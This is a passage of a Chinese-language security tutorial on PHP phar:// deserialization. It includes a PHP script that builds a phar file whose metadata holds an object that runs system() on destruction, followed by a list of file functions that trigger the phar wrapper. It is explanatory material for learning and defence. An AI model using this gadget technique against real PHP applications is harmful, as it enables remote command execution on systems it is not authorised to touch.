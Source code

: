 2、利用方法
------

可利用原因：

使用phar://伪协议解析phar文件时对meta-data进行反序列化操作

利用方法：

将要序列化的内容写入meta-data中，再使用phar伪协议进行反序列化。首先需要生成phar文件，

在php的配置文件中需要设置phar.readonly= Off。

```php
<?php
class A {
    public $a;

    public function __destruct()
    {
        system($this->a);
    }
}
$a = new A();
$a->a='ls';
$phar = new Phar("test.phar");//后缀名必须为phar
$phar->startBuffering();
$phar->setStub("<?php __HALT_COMPILER();?>");//设置stub
$phar->setMetadata($a);//将自定义的meta-data存入manifest
$phar->addFromString("test.txt", "test");//添加要压缩的文件
//签名自动计算
$phar->stopBuffering();
?>
```

可以触发phar伪协议的函数包括：

![图片.png](https://shs3.b.qianxin.com/attack_forum/2024/05/attach-249275942d3ab93fe4484a29b0678bc313d87458.png)

但实际上只要调用了php\_stream\_open\_wrapper的函数，都存在这样的问题。因此还有以下函数：

```php

exif
exif_thumbnail
exif_imagetype

gd
imageloadfont
imagecreatefrom

hash
hash_hmac_file
hash_file
hash_update_file
md5_file
sha1_file

file / url
get_meta_tags
get_headers
mime_content_type

standard
getimagesize
getimagesizefromstring

finfo
```